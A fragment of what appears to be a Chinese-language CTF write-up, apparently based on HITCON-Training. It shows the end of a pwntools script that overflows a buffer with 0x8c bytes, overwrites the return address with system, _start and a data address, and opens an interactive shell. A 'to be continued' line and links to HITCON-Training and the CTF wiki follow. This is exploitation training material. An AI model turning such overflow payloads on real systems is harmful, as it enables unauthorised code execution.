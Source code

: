 ```python
    _start_addr = elf_file.symbols['_start']
    exp_file.recvuntil("Input:\n")
    payload = "a" * 0x8c
    payload += p32(system_addr)
    payload += p32(_start_addr)
    payload += p32(data_addr)
    exp_file.sendline(payload)
    exp_file.interactive()


if __name__ == '__main__':
    main()
```



# 未完待续。。。

未完待续。。。



# 0x3 Reference

- [https://github.com/ybslzwa/HITCON-Training](https://github.com/ybslzwa/HITCON-Training)
- [https://ctf-wiki.github.io/ctf-wiki/](https://ctf-wiki.github.io/ctf-wiki/)





